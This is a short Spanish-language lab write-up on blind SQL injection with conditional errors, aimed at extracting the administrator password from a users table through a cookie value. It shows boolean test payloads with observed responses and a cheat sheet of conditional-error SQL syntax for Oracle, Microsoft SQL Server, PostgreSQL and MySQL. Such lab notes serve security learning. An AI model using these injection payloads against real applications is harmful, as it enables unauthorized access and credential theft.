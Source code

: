 To solve the lab, log in as the administrator user.

- valor enviado por cookie
- es blind , si el sql causa error devuelve un mensaje
- tabla users , username y passowrd
- obtener administrator password

![](assets/2022-07-08-11-16-38.png)


>NOTA: Estos ejercicios se pueden hacer casi directamente pero la intención de esta guía es que me sirva de metodología para cualquier caso. Una vez acabe los laboratorios actualizaré mi metodología para que funcione con los diferentes tipos de ejercicios.

Este tipo de sql inyection no te das cuenta hasta que estás haciendo las consultas, por eso es necesario ir haciendo las pruebas tanto el que sabemos que si existe la respuesta como el que no.

### 1. Vamos a ver si la base de datos existe y si es explotable.

[v] ```     ' AND '1'='1--```  --> Devuelve 200 y ningún mensaje. por lo que puede ser blind y puede ser que necesite condicionales, aún no lo sabemos.

[v] ```     ' AND '2'='1--```  --> Devuelve 200 por lo que al no mostrar nada y ser una sentencia falsa estamos ante un tipo que necesitamos errores condicionales

### 2. Conditional errors sql injection

You can test a single boolean condition and trigger a database error if the condition is true.

```sql

Oracle     

SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual

Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)

MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
